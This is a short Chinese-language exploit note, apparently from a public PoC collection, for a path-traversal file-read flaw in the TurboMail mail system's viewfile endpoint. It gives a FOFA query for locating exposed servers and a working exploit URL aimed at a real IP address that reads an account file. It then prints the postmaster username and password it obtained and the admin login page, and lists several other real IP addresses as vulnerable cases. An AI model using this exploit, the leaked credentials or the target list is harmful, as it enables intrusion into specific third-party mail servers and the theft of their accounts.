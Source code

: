 # TurboMail 邮件系统 viewfile 文件读取漏洞

    ## fofa

```
app="TurboMail"
```

## poc

```
http://113.108.253.183:8081/viewfile?type=cardpic&mbid=1&msgid=2&logtype=3&view=true&cardid=/accounts/root/postmaster&cardclass=../&filename=/account.xml
```

![image](https://s1.ax1x.com/2023/04/09/ppHwZtI.png)

```
username :postmaster
password :Dgmf7690
http://113.108.253.183:8081/maintlogin.jsp
```

![image](https://s1.ax1x.com/2023/04/09/ppHweht.png)

## 案例

| URL  | http://113.108.253.183:8081http://113.98.99.130:9090http://114.221.154.248:8081http://123.124.56.127:8090http://183.230.47.186:8090 |
| ---- | ------------------------------------------------------------ |
